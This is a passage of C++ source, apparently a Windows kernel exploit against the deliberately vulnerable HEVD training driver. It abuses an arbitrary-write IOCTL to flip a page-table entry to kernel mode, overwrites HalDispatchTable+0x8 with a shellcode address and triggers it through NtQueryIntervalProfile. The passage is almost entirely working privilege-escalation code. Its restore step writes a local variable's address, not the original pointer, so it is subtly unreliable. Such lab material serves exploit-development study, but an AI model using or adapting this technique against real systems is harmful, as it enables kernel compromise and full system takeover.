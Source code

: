 ```cpp
	
	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;
	
	printf("[+] PTE Details -> 0x%p\n", Pte_details);

	printf("[0x4 bit form U to K]\n");
	*(UINT64*)&Pte_details &= ~(0x4);
	printf("[+] PTE Details -> 0x%p\n", Pte_details);


	WhaWhe.What = (void*)&Pte_details;
	WhaWhe.Where = (void*)ShellcodePageBase;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);
	printf("[Page changed to Kernel Mode]\n");

	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;

	UINT64 HalDispatchTable0x8 = (pKernelBase + OffHalDispatchTable + 0x8);
	WhaWhe.What = (void*)&ShellcodeAddr;
	WhaWhe.Where = (void*)HalDispatchTable0x8;

	lpBytesReturned = 0;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);
	
	printf("\n[+] HalDispatchTable0x8 changed successfully\n");
	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;

	_NtQueryIntervalProfile NtQueryIntervalProfile = (_NtQueryIntervalProfile)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryIntervalProfile");
	if (NtQueryIntervalProfile == nullptr) {
		printf("\n[!] ERROR GETTING THE POINTER TO \"NtQueryIntervalProfile\": %d\n", GetLastError());
		VirtualFree(ShellcodeAddr, 160, MEM_RELEASE);
		CloseHandle(hHEVD);
		getchar();
		return -1;
	}
	printf("[NtQueryIntervalProfile] -> 0x%p\n", NtQueryIntervalProfile);


	ULONG Interval = 0;
	NTSTATUS Status = NtQueryIntervalProfile((_KPROFILE_SOURCE)0x3, &Interval);
	if (Status != 0) {
		printf("\nERROR EXECUTING \"NtQueryIntervalProfile\": 0x%0.16X\n", Status);
		VirtualFree(ShellcodeAddr, SHELLCODE_SIZE, MEM_RELEASE);
		CloseHandle(hHEVD);
		getchar();
		return -1;
	}

	// Restore the changed address to avoid BSOD
	WhaWhe.What = (void*)&HalDispatchTable0x8;
	WhaWhe.Where = (void*)HalDispatchTable0x8;

	lpBytesReturned = 0;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);

```